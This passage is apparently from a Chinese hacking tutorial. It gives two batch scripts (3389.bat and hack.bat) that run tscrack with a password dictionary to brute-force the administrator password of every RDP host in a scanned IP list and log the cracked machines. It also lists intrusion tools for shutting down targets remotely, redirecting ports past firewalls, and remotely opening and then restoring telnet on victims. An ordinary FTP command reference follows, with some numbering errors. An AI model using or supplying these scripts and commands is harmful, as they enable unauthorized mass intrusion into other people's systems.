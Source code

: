 ```cmd
　　@if not exist ipcscan.txt goto noscan
　　@for /f "tokens=1 delims= " %%i in (3389.txt) do call hack.bat %%i
　　nscan
　　@echo 3389.txt no find or scan faild
```

(①存为3389.bat) （假设现有用SuperScan或其它扫锚器扫到一批开有3389的主机IP列表文件3389.txt)
3389.bat意思是：从3389.txt文件中取一个IP，接着运行`hack.bat`

```cmd
　　@if not exist tscrack.exe goto noscan
　　@tscrack %1 -l administrator -w pass.dic >>rouji.txt
　　:noscan
　　@echo tscrack.exe no find or scan faild
```

(②存为hack.bat) (运行3389.bat就OK，且3389.bat、hack.bat、3389.txt、pass.dic与tscrack.exe在同一个目录下；就可以等待结果了)
　　hack.bat意思是：运行tscrack.exe用字典暴破3389.txt中所有主机的administrator密码，并将破解结果保存在rouji.txt文件中。
### 其它
####  Shutdown.exe

- Shutdown IP地址 t:20 20秒后将对方NT自动关闭（Windows 2003系统自带工具，在Windows2000下用进就得下载此工具才能用。在前面Windows 2003 DOS命令中有详细介绍。）
- `fpipe.exe` (TCP端口重定向工具) 在第二篇中有详细说明（端口重定向绕过防火墙）
- `fpipe -l 80 -s 1029 -r 80` 当有人扫锚你的80端口时，他扫到的结果会完全是的主机信息
- `Fpipe -l 23 -s 88 -r 23` 目标IP 把本机向目标IP发送的23端口Telnet请求经端口重定向后，就通过88端口发送到目标IP的23端口。（与目标IP建立Telnet时本机就用的88端口与其相连接）然后：直接Telnet 127.0.0.1（本机IP）就连接到目标IP的23端口了。
#### OpenTelnet.exe (远程开启telnet工具)
- `opentelnet.exe IP 帐号　密码　ntlm认证方式　Telnet端口` （不需要上传ntlm.exe破坏微软的身份验证方式）直接远程开启对方的telnet服务后，就可用telnet ip 连接上对方。
- NTLM认证方式：0：不使用NTLM身份验证；1：先尝试NTLM身份验证，如果失败，再使用用户名和密码；2：只使用NTLM身份验证。
##### ResumeTelnet.exe (OpenTelnet附带的另一个工具)

- `resumetelnet.exe IP　帐号　密码 `用Telnet连接完对方后，就用这个命令将对方的Telnet设置还原，并同时关闭Telnet服务。

##### FTP命令详解
FTP命令是Internet用户使用最频繁的命令之一，熟悉并灵活应用FTP的内部命令，可以大大方便使用者，并收到事半功倍之效。如果你想学习使用进行后台FTP下载，那么就必须学习FTP指令。
FTP的命令行格式为：

* `ftp -v -d -i -n -g [主机名]` ，其中

    `-v` 显示远程服务器的所有响应信息

    `-n` 限制ftp的自动登录，即不使用.n etrc文件；
    
    `-d` 使用调试方式；

    `-g` 取消全局文件名。


FTP使用的内部命令如下(中括号表示可选项):

1. `![cmd[args]]`：在本地机中执行交互shell，exit回到ftp环境，如：`!ls*.zip`
2. `$ macro-ame[args]`： 执行宏定义macro-name。
3. `account[password]`： 提供登录远程系统成功后访问系统资源所需的补充口令。
4. `append local-file[remote-file]`：将本地文件追加到远程系统主机，若未指定远程系统文件名，则使用本地文件名。
5. `ascii`：使用ascii类型传输方式。
6. `bell`：每个命令执行完毕后计算机响铃一次。
7. `bin`：使用二进制文件传输方式。
8. `bye`：退出ftp会话过程。
9. `case`：在使用mget时，将远程主机文件名中的大写转为小写字母。
5. `cd` remote-dir：进入远程主机目录。
11. `cdup`：进入远程主机目录的父目录。
12. `chmod mode file-name`：将远程主机文件file-name的存取方式设置为mode，如：`chmod 777 a.out`。
13. `close`：中断与远程服务器的ftp会话(与open对应)。
14. `cr`：使用asscii方式传输文件时，将回车换行转换为回行。
15. `delete remote-file`：删除远程主机文件。
16. `debug[debug-value]`：设置调试方式， 显示发送至远程主机的每条命令，如：deb up 3，若设为0，表示取消debug。